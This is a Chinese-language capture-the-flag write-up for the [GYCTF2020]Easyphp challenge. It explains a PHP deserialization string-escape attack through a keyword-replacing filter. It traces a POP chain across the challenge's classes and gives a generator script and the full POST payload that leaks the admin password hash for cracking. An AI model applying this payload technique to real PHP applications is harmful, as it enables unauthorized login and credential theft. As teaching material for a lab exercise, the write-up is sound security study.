



# [GYCTF2020]Easyphp

## 知识点

`php反序列化字符串逃逸(变长)`

## 解题

题目给了一个登录框，简单尝试了弱口令进不去，网页源代码也没发现什么东西，扫描目录发现`www.zip`，接下来就是审计一下`php`源码

发现获取`flag`的方法在`update.php`

```php
<?php
require_once('lib.php');
$users=new User();
$users->update();
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}
```

重点看一下`lib.php`,看到有两处`login`，可以利用的是`dbCtrl`类处的`login`，省略部分代码，仅关注重点代码如下

```php
class dbCtrl
{
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        if ($this->mysqli->connect_error) {
            die("连接失败，错误:" . $this->mysqli->connect_error);
        }
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
    }
}
```

在这里，只需要`token=admin`,`name=admin`，就会返回`$idResult`，即`class User`里的`sql`语句的`select id,password from user where username=?`，查出`id`内容，调换顺序为`select password,id from user where username=?`即可查出`password`的值，然后用于登录，找一下`pop`链，理一下开始和结束

开始：

`update.php User::update`

结束

`lib.php dbCtrl::login($sql='select password,id from user where username=?')`

从结束处反推，找可以调用`dbCtrl::login`的地方，发现`Info`类可以调用

```php
class Info{
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
```

`Info::__call($this->CtrlCase=new dbCtrl()) => dbCtrl::login($sql='select password,id from user where username=?')`

再找能调用`Info::__call($this->CtrlCase=new dbCtrl())`的地方，因为`__call`需要调用`类不存在的方法`时触发，在`User`类发现

```php
class User
{
  public function __toString()
    {
        $this->nickname->update($this->age);
        return "0-0";
    }
}
```

` User::__toString($this->nickname=new Info(), $this->age='select password,id from user where username=?') => Info::__call($this->CtrlCase=new dbCtrl()) => dbCtrl::login($sql)`

然后再找能触发`User::__toString`的地方，触发`__toString`的条件为`输出类`时触发，发现在`UpdateHelper::__destruct`时可以触发

```php
class UpdateHelper {
  public function __destruct()
    {
        echo $this->sql;
    }
}
```

`UpdateHelper($this->sql=new User())  => User::__toString($this->nickname=new Info(), $this->age='select password,id from user where username=?') => Info::__call($this->CtrlCase=new dbCtrl()) => dbCtrl::login($sql)`

`pop`链找齐了，找一下如何触发`pop`链，从开始处查看

```php
class User
{
  public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
}

function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}

class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
}
```

发现先`序列化`并且过了`safe`函数，将字符串转为`hacker`，导致字符串变长，就可以使用`反序列化字符串逃逸(变长)`的利用方法利用漏洞，利用`Info`类中的`nickname`来逃逸，所以需要把`nickname`后面参数生成的反序列化内容生成再计算绕过字符，先生成一下`Info`的最后几个内容用于计算绕过字符

```php
<?php

class Info{
    public $age='1';
    public $nickname='c';
    public $CtrlCase;
}

echo serialize(new Info());
```

`O:4:"Info":3:{s:3:"age";s:1:"1";s:8:"nickname";s:1:"c";s:8:"CtrlCase";N;}`

那么就需要在`pop`链后面添加`}";s:8:"CtrlCase";N;}`，生成`pop`链条的代码为

```php
<?php

class User
{
    public $id;
    public $age;
    public $nickname;
}
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;

}
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;

}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="root";
    public $dbpass="root";
    public $database="test";
    public $name;
    public $password;
    public $mysqli;
    public $token;
}

$a = new UpdateHelper();
$a -> sql = new User();
$a -> sql -> nickname = new Info();
$a -> sql -> age = 'select password,id from user where username=?';
$a -> sql -> nickname -> CtrlCase = new dbCtrl();
$a -> sql -> nickname -> CtrlCase -> name = 'admin';
$a -> sql -> nickname -> CtrlCase -> token = 'admin';

$res = '";s:8:"CtrlCase";' . serialize($a) . '}';

// echo $res;

$string = '';
for ($i=0; $i < strlen($res); $i++) { 
    $string .= 'union';
}

echo $string . $res;
```

最终`payload`为

```
age=1&nickname=unionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunion";s:8:"CtrlCase";O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:45:"select password,id from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";N;s:6:"mysqli";N;s:5:"token";s:5:"admin";}}}}}
```

传参后结果为



是`md5`加密后的字符串，去`cmd5.com`查密码



然后去登录即可获得`flag`

